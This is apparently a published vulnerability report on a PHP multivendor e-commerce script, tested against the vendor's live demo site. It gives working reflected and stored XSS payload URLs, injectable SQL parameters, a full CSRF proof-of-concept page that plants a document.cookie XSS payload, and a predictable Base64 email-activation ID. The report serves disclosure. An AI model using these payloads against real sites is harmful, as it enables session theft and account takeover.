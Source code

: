 ### PHP Multivendor Ecommerce- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF/Arbitrary-Binding

Well,  when I pentest the official demo site of PHP Multivendor Ecommerce, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

###### XSS1

```
http://www.fxwebsolution.com/demo/arthi/multivendor/category.php?chid1=40%27%22%3E123%3Cimg%20src=x%20console.log(/xss/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss1.png)

###### XSS2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/seller-view.php?usid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss2/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss2.png)

###### XSS3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss3/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss3.png)


###### XSS4

````
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss4/)%3E123%3C%27%22
````

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss4.png)


##### Stored-XSS 


```
http://www.fxwebsolution.com/demo/arthi/multivendor/admin/sellerupd.php?upd=2&uid=36&id=61
```

POST parameters:

```
------WebKitFormBoundary2wspk6wZ1zP1BEHR
Content-Disposition: form-data; name="companyname"

abc pvt ltd'"><svg/onload=alert(document.cookie)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sxss.png)



#### SQL Injection:

##### sqli1
```
http://www.fxwebsolution.com//demo/arthi/multivendor/seller-view.php?usid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli1.png)

##### sqli2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli2.png)


##### sqli3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli3.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.fxwebsolution.com\/demo\/arthi\/multivendor\/admin\/sellerupd.php?upd=2&uid=36&id=61", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2wspk6wZ1zP1BEHR");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"idvalue\"\r\n" + 
          "\r\n" + 
          "61\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"upd\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"user_mail\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"about\"\r\n" + 
          "\r\n" + 
          "ihguifhugjhufdhgjhd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"store\"\r\n" + 
          "\r\n" + 
          "avc\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"cphone\"\r\n" + 
          "\r\n" + 
          "2147483647\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"policy\"\r\n" + 
          "\r\n" + 
          "gfgfvhhjj\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address1\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address2\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"proof\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"_submit\"\r\n" + 
          "\r\n" + 
          "Save\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=NTA=
```
After Base64 decode:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding2.png)

So it's easy to predict or enum the eid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.
